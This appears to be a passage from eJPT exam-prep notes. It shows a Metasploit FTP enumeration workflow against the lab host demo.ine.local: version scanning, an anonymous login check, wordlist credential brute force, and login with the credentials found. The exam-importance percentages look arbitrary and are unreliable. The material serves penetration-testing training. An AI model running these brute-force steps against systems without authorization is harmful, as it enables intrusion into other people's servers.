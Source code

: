 ### Example 4: Complete FTP Enumeration Workflow
```bash
# Phase 1: Version detection
use auxiliary/scanner/ftp/ftp_version
set RHOSTS demo.ine.local
run

# Phase 2: Anonymous access test
use auxiliary/scanner/ftp/anonymous
set RHOSTS demo.ine.local
run

# Phase 3: Brute force if anonymous fails
use auxiliary/scanner/ftp/ftp_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run

# Phase 4: Connect with found credentials
# Outside of Metasploit
ftp demo.ine.local
# Username: sysadmin
# Password: 654321
```

## 🎯 eJPT Exam Focus

### Essential Skills for eJPT:
- **FTP Version Identification** - 85% importance in service enumeration phase
- **Anonymous FTP Testing** - 75% importance for finding quick wins
- **Credential Brute Force** - 90% importance when other methods fail
- **FTP Client Usage** - 70% importance for post-exploitation file access

### Critical Commands to Master:
```bash
# Version detection - always first step
use auxiliary/scanner/ftp/ftp_version

# Anonymous testing - quick win check
use auxiliary/scanner/ftp/anonymous

# Brute force - main attack vector
use auxiliary/scanner/ftp/ftp_login

# Direct FTP connection - post-compromise
ftp target_ip
```

### eJPT Exam Scenarios:
1. **Service Enumeration Phase:** Students must identify FTP services and versions
   - Required skills: Module selection, target configuration, result interpretation
   - Expected commands: `ftp_version` module with proper RHOSTS setting
   - Success criteria: Extract FTP server software and version information
